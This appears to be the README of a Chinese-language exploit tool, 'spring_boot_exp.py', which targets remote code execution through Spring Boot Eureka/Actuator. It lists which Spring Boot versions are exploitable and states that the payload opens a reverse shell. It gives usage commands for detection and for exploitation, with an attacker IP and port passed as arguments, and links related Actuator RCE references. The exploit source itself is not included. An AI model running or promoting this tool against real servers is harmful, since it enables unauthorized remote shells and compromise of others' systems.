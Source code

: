 ## Spring Boot eureka exp
```
 ___ _ __  _ __(_)_ __   __ _        _____  ___ __
/ __| '_ \| '__| | '_ \ / _` |_____ / _ \ \/ / '_ \
\__ \ |_) | |  | | | | | (_| |_____|  __/>  <| |_) |
|___/ .__/|_|  |_|_| |_|\__, |      \___/_/\_\ .__/
    |_|                 |___/                |_|
-------Spring Boot 2.x 无法利用成功---------
-------Spring Boot 1.5.x 在使用 Dalston 版本时可利用成功，使用 Edgware 无法成功--------
-------Spring Boot <= 1.4 可利用成功---------------
                          --by tea0 
``` 
## update 
目前 版本还存在问题，但是可利用，利用payload是采用反弹shell
代码写的有点垃圾，大佬勿喷！新手上路，后续代码会优化
## help
检测：
```angular2
python spring_boot_exp.py -u http://127.0.0.1:8090
```

利用：
```angular2
 python spring_boot_exp.py -u http://127.0.0.1:8090 -exp xx.x.xx.x -p 1000
```

## 参考资料
Spring Boot Actuator未授权访问【XXE、RCE】单/多目标检测
* https://github.com/rabbitmask/SB-Actuator

小米安全

* https://www.anquanke.com/post/id/195929
